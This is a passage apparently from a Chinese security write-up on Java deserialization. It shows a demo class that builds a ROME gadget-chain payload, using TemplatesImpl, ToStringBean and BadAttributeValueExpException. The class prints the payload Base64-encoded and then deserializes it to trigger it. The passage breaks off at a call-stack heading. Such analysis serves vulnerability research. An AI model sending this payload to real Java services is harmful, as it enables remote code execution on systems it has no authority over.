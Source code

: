 [![](assets/1701071934-e77d0907ed68cd42fd0b7f379fff177a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223345-790421c4-8ad6-1.png)  
demo

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.util.Base64;

public class rome2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        BadAttributeValueExpException b = new BadAttributeValueExpException(1);
        util.setFieldValue(b,"val",toStringBean);
        byte[] ser = util.serialize(b);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[![](assets/1701071934-919af66044de1ac5bd3f16c2cc6ae5f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223402-834784be-8ad6-1.png)  
调用栈：  
